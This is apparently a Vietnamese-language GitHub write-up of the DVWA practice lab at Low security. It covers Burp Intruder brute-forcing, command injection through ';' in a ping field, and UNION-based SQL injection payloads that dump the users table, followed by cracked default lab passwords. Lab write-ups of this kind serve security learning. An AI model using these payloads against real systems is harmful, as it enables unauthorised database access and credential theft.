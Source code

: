 # DVWA - Security Level: Low

## 1. Brute Force  
Su dung BurpSuite bat request khi thuc hien dang nhap:  
![Brute Forces_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_1.png)  
Su dung tinh nang **Intruder**, thu bruteforces voi tai khoan **admin**:  
![Brute Forces_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_2.png)  
Ket qua:  
![Brute Forces_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Brute%20Forces_3.png)  
Tai khoan: **admin**  
Mat khau: **password**  
## 2. Command Injection  
Nhap **8.8.8.8** vao input box:  
![Command Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_1.png)  
Chuc nang **Ping a device** thuc hien cau lenh **ping -c 4**, thu su dung ky tu **';'** de ket hop voi cac cau lenh khac:  
![Command Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/Command%20Injection_2.png)  
## 3. CSRF  

## 4. File Inclusion  

## 5. File Upload  

## 6. Insecure Captcha  

## 7. SQL Injection  
Nhap thu **"1"** vao input box:  
![SQL Injection_1](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_1.png)  
Khi nhap **User ID = 1** trang web se tra ve thong tin cua **ID, First name, Surname**, vi vay cau lenh query co the la:  
**SELECT first_name, last_name FROM users WHERE user_id = id;**  
Thu kiem tra so column cua cau lenh query bang canh nhap **'UNION ODER BY 2--**  
![SQL Injection_2](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_2.png)  
Kiem tra cac table trong database bang lenh query:  
**' UNION SELECT null, table_name FROM INFORMATION_SCHEMA.TABLES-- -**  
![SQL Injection_3](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_3.png)  
Co table **users**, kiem tra cac column trong table **users** bang lenh query:  
**' UNION SELECT null, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'dvwa' and table_name = 'users'-- -**    
![SQL Injection_4](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_4.png)  
Trong table **user** co 2 column **user, password**, kiem tra 2 columns bang lenh query:  
**' UNION SELECT user, password FROM users-- -**  
![SQL Injection_5](https://github.com/ckiev5/DVWA/blob/main/Images/Low%20Level/SQL%20Injection_5.png)  
Ta co cac thong tin ve **user, password**, **password** dang duoc ma hoa MD5. Sau khi giai ma:  
**admin - password  
gordonb - abc123  
1337 - charley  
pablo - letmein  
smithy - password**  
## 8. SQL Injection (Blind)  

## 9. Weak Session IDs  

## 10. XSS (DOM)  
    
## 11. XSS (Reflected)  
    
## 12. XSS (Stored)  

## 13. CSP Bypass  

## 14. JavaScript  
